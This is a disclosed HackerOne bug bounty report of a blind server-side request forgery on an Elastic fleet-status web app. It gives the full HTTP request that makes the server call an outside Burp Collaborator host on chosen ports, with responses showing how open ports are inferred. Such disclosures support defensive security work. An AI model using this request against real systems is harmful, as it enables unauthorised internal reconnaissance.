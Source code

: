 # blind Server-Side Request Forgery (SSRF)  allows scanning internal ports

## Report Details
- **Report ID**: 1300585
- **URL**: https://hackerone.com/reports/1300585
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-08-11T19:08:49.267Z
- **Disclosed**: 2023-05-05T06:34:31.254Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: elastic

## Vulnerability Information
hello dear support 

I found a Blind SSRF issue that allows scanning internal ports. on https://fleet-status.app.elstc.co

from this issue, you can check the server port 

HTTP request
===========
GET /api/v1/http/default/raw?regex=%22service.name%22:/s*%22(package-registry)%22&statusCodeMax=200&statusCodeMin=200&url=http://p8yfvg6nige7z2ndagpf3v181z7pve.burpcollaborator.net:22 HTTP/1.1
Host: fleet-status.app.elstc.co
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Cache-Control: max-age=0
Te: trailers
Connection: close

if you add port 22 you will get  

{"type":"HTTP-RAW","status":"WARNING","label":"http://p8yfvg6nige7z2ndagpf3v181z7pve.burpcollaborator.net:22","message":"timeout/host unreachable"}


not open  

if you add  port 80 

response 
{"type":"HTTP-RAW","status":"FAILURE","label":"http://p8yfvg6nige7z2ndagpf3v181z7pve.burpcollaborator.net:80","value":{"values":["\u003chtml\u003e\u003cbody\u003eift3z4lojdng3fv7r68q5szjigz\u003c/body\u003e\u003c/html\u003e"],"unit":"RAW"}}

port 80 open

## Impact

Since this is a blind SSRF, it is not possible to read the response of HTTP requests. However this vulnerability can be used for reconnaissance.
Example: Port Scan by measuring response time

## Attachments
No attachments
